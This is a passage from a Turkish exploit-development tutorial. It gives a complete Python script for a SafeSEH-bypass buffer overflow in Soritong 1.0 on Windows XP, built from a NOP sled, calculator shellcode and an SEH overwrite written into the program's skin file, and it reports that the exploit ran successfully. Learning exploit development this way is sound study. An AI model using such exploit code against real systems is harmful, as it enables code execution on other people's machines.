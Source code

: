 O halde exploitimizin son halini yazabiliriz.

```python
# Soritong 1.0 SafeSEH Bypass
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

size = 584
NOP = b"\x90"*100
geri_vites = b"\xE9\x07\xFE\xFF\xFF" # jmp -500
nextSEH = b"\xeb\xf9\x90\x90" # jmp -5
SEH = b"\x0b\x0b\x27\x00" # call dword ptr ss:[ebp+30]

exploit = NOP + calc + b"\x90"*(size-len(NOP+geri_vites+calc))+ geri_vites + nextSEH + SEH

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Sanırım herşey tamam gibi, programımızı çalıştırıp test edelim...

![exploit](img/0x05/exploit.gif)

Ve başarılı bir şekilde exploitimiz çalışmış oldu.
